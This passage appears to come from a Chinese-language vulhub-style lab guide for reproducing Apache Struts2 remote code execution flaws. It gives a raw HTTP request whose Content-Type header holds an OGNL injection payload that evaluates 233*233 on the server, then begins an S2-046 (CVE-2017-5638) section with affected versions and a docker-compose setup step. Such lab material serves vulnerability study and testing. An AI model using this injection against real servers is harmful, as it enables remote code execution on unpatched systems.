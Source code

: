 环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```plain
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```



![img](assets/1670312419387-a1ad1bf2-ba18-41a3-93a8-0e6874a53f13.png)

------

# S2-046 远程代码执行漏洞（CVE-2017-5638）



影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221



## 漏洞环境

执行如下命令启动struts2 2.3.30：

```plain
docker-compose up -d
```
